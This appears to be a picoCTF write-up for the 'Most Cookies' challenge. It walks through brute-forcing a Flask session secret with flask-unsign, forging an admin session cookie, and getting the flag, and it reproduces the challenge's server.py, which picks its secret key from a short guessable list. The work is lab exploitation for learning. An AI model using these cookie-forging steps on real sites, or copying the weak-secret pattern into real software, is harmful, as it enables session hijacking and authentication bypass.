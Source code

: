 After an agonizing 1 second, you are slapped with the secret key!! In my case, it was 'fortune'. Lucky me!

#### FASTER WAY THAT I USED TO FIND THE SECRET KEY:

```python
$ flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt
```

### 2. Use the secret key to generate our own cookie

With the secret key, the rest will be a breeze. Time to forge our own session cookie! >:D

I found this godly [website](https://github.com/noraj/flask-session-cookie-manager) about encoding flask session cookies. On the website, there is an 'Encode' section ... so I used their code.

```python
$ flask_session_cookie_manager3.py encode -s fortune -t "{'very_auth':'admin'}"
# we attach the secret key and confirm admin
```

And ... we are blessed with our very own forged cookie!!!!!!!!!!!!!!!

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGEVdA.Fqe_gJWtcM37UiFmpaWsMkhel6w
```

### 3. Insert our cookie into the [site](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) to replace the cookie value

Copy and paste that bad boy into the cookie value.

### 4. Reload the page to receive salvation

## Flag

picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}

## References

### server.py

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```